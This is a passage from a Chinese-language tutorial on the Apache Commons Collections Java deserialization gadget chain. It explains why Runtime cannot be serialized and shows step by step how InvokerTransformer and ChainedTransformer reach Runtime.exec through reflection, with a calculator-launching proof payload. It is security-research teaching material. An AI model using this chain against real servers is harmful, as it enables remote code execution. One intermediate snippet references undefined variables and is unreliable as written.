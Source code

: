 ```java
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(obj);
    }

    public static void unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.bin")));
        Object obj = ois.readObject();
        System.out.println(obj);
    }
}
```

但是实际上该代码抛出一个java.io.NotSerializableException的异常，原因是我们尝试序列化Runtime对象，而Runtime对象是没有继承Serializable接口的，因此是不能被序列化的，但是我们并不是直接序列化Runtime对象呀为什么还会出现这个问题？这里其实还涉及到java对引用用对象的序列化问题，在此前我们知道：一个对象可以被序列化需要其本身实现了Serializable接口并且其所有属性也都是可序列化的。**而事实上当我们序列化一个对象时，实际上不仅仅是单个对象本身被转换为可以存储或传输的字节序列，而是该对象以及它所引用的所有其他对象共同构成了一个“对象图”。这个对象图包括了原始对象，以及它直接或间接引用的所有对象。**所以尽管Runtime对象不是AnnotationInvocationHandler对象的直接属性，但显然属于其间接引用对象，所以也会导致整体的序列化失败。

# 反射构造

为了解决这个问题，我们很自然的想到，既然我们不能在本地构建Runtime对象，我们能不能通过命令执行让服务器端构建一个Runtime对象再自己来执行呢。而前面我们又提到，Runtime没有实现Serializable接口，但是Class对象是有实现的，所以我们得尝试着从一个Runtime.class对象逐步执行命令而不能直接使用Runtime.getRuntime()得到RunTime对象，先来看下我们原来构建TransformerMap的代码：

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{new ConstantTransformer(r), invokerTransformer});
```

首先初步变换为：

```java
Class<Runtime> runtimeClass = Runtime.class;
Method getMethod = runtimeClass.getMethod("getRuntime", null);
Object invoke = getRuntime.invoke(null,null);
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{new ConstantTransformer(runtime), invokerTransformer});
```

然后再次变换为：

```java
Class<Runtime> runtimeClass = Runtime.class;
Object getMethod = new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}).transform(runtimeClass);
Object invoke = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getMethod);
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{new ConstantTransformer(invoke), invokerTransformer});
```
